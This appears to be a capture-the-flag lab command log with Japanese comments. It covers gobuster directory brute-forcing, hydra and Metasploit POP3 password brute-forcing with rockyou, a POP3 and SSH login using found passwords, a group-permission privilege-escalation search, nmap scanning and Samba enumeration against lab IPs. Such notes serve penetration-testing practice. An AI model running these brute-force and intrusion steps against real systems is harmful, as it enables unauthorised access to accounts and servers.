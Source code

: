 gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php

nc 10.10.81.195 110

hydra -l seina -P /usr/share/wordlists/rockyou.txt -f -o found.txt pop3://10.10.81.195

# Metasploit
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS 10.10.81.195
set USERNAME seina
set PASS_FILE /usr/share/wordlists/rockyou.txt
set STOP_ON_SUCCESS true
set THREADS 10
set VERBOSE false
set CONNECT_TIMEOUT 5
run

# POP3手動ログイン
nc 10.10.81.195 110
USER seina
PASS scoobydoo2
LIST
RETR 1

# SSHログイン
ssh baksteen@10.10.81.195
# パスワード: S1ck3nBluff+secureshell

# ユーザ情報確認
id

# GIDベースの特権昇格調査
find / -gid 100 -perm -g=x -type f 2>/dev/null


nmap -sV -O 10.10.15.79

gobuster dir -u http://10.10.15.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php

# Samba enumeration
smbclient -L //10.10.15.79 -N
smbclient //10.10.15.79/anonymous -N
smbclient //10.10.15.79/milesdyson -U milesdyson
